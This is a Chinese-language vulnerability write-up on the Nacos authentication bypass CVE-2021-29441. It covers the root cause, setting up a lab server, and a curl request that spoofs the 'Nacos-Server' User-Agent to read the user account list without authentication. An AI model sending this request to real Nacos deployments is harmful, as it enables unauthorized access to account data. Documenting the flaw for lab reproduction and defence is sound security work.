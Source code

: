 # 从 Nacos CVE-2021-29441 到新型利用方式探索
# 0x01 漏洞原理
Nacos 是 `Dynamic Naming and Configuration Service` 的首字母简称，是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

## 1.1 Nacos 认证绕过漏洞（CVE-2021-29441）
在 Alibaba Nacos 2.0 版本存在一个由于 `User-Agent` 处理不当导致的未授权访问漏洞 `CVE-2021-29441` ，该漏洞发生在 `Nacos` 在进行认证授权操作时，会判断请求的 `User-Agent` 是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的 `user-agent` 设置为 `Nacos-Server` ，直接硬编码在了代码里，导致了漏洞的出现，从而导致能够添加任意用户、修改任意用户密码等等问题。

## 1.2 Nacos 新的利用方式探索
- 来自 [云原⽣组件Nacos新型红队手法研究 @默安逐日实验室](https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ)

基于 `CVE-2021-29441` 的几种利用方式无非就是读取用户账号密码、未授权添加用户、任意用户密码更改这几种常见的，防守方通常会通过WAF规则直接拦截掉这几个URL请求。

实际上，根据鉴权相关文档(https://nacos.io/en-us/docs/auth.html)， 发现默认启动 Nacos 就是不开启鉴权的，而且还有许多可以利用的接口，后续漏洞复现部分进行举例。

# 0x02 环境搭建
使用 Ubuntu 进行环境搭建，这里搭建的是最新的 Nacos 2.2.0  (Dec 14, 2022)。
```shell
sudo apt-get update
sudo apt-get install default-jdk
sudo ufw disable
wget https://github.com/alibaba/nacos/releases/download/2.2.0/nacos-server-2.2.0.zip
unzip nacos-server-2.2.0.zip
cd nacos/bin
bash startup.sh -m standalone
```
访问 http://ip:8848/nacos/ ，如果出现 Nacos 登陆界面说明部署成功，默认用户名密码为 `nacos/nacos` 。

![image](https://user-images.githubusercontent.com/84888757/209051139-96fec007-7ef8-494e-822e-91476c1faf2a.png)

# 0x03 漏洞复现
## 3.1 读取用户账号密码
使用老版本 Nacos CVE-2021-29441 的 payload ：
```shell
curl 'http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```
出现报错：提示说是缺少 `search=blur` 或者 `search=accurate` 。

![image](https://user-images.githubusercontent.com/84888757/209053410-37caf518-9d39-4499-9685-19cf605407af.png)


加上再试试看，成功读取。
